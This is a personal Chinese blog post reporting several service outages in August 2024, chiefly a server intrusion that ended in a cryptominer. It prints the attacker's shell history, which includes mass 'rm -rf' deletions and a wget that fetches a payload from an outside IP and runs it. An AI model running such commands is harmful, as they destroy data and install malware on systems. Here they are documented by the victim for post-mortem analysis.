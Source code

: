 ```yaml
---
title: 服务崩溃报告
date: 2024-08-30 18:32:39
updated: 2024-08-30 18:32:39
tags: 公告
description: 服务崩溃报告
categories: 技术向

---
```



在8月中旬，我在学校尝试远程回家的时候发现出了点意外没想到是出了点大问题啊，简单记录一下
在以后有什么大规模的崩溃也会记录在这里（但愿不要再写下去





## 2024/8

在8月15日下午1点，家里`ikuai-kvm`节点被入侵，执行到的相关命令如下

```bash
  338  free
  339  top
  340  ps aux
  341  apt remove sendmail* docker* container*
  342  ps aux
  343  cd /home
  344  ls
  345  rm -rf *
  346  cd /
  347  ls
  348  rm -rf www
  349  cd /etc/systemd/system
  350  ls
  351  ps aux
  352  ls
  353  rm -rf cloud* db* ddn* nez* mcsm*
  354  ls
  355  cd multi*
  356  ls
  357  rm -rf cloud* db* ddn* nez* mcsm*
  358  ls
  359  rm -rf cont* docker* tail* x-ui*
  360  cd /usr/local
  361  ls
  362  rm -rf x*
  363  rm -rf bt*
  364  cd
  365  ls
  366  w
  367  rm -rf *
  368  reboot
  369  free
  370  ps aux
  371  ls
  372  netstat -lntu
  373  ping 8.8.8.8
  374  yum install msr-tools
  375  apt install msr-tools
  376  apt autoremove
  377  ls
  378  nproc
  379  mkdir .sys
  380  cd .sys
  381  wget http://54.71.19.189:8088/x.tar
  382  tar xzvf x.tar
  383  ./hash
  384  ./s
  385  exit
```

后面就是挖矿病毒了，不是哥们你挖矿就挖矿，你还删我东西啊。他甚至名称都不舍得给我打全，用通配符来替代

我当时在学校临时将路由后台映射	切换到另一台服务器下，进到后台后看到路由器cpu温度有70多度，我就知道事情不简单

在`Aug 16, 5:34 AM GMT+8`时完全下线

**影响范围**：图片分发节点，mc服务器官网，图床，Gitea，大量私有服务（无法统计）

**补充**：由于由于图床需要将远程云盘目录映射到本地，同时我也测试镜像站在该服务器的部署，导致在执行清删除操作时同步清除了云盘中挂载的所有内容，合计1405个文件，已恢复

**分析**：包是宝塔了，我另一台在香港的服务器之前用宝塔直接被菠菜网站修改好几回nginx配置，现在三台服务器就这一台还是用着宝塔没有迁移了，里面的服务大多是docker虚拟化的，直接部署的也都是开源的程序，基本不会引进病毒，唯一可能的后门最严重的只剩下这个宝塔了。作为对比啊，我内网下另一台服务器用的是1panel，一点事没有。

**灾难恢复**：由于并没有妥善的统计内网下的服务，因此想完整恢复有点困难，但主要业务相关端口均有记录在tailscale，可以起一定参考作用

![image-20240831141247847](https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831141247847.png)

**措施**： 迁移图床到`hk-tt`（丢失图床数据），启用ipv6防火墙

**已恢复**：图片分发节点，ZTale，bluemap，mcsm





在8月21号，家里面线路泡水短路，总闸跳了。此外由于故障时间过长，ups干没电了，导致`MC-SERVER`BIOS数据丢失（CMOS电池那部分线路坏了）来电重启后无法从正确的硬盘引导启动，已修复

**影响范围**：mc服务器，部分私有服务

**措施**：已恢复



在8月13号及往后，位于缤纷云的图片储存桶不时遭到攻击，由于我设置了严苛的访问政策，只造成3.12元的损失

**影响范围**：博客首页文章图片，友链头像图片

**措施**：文章封面迁移到自建图床，友链图片并入博客文件
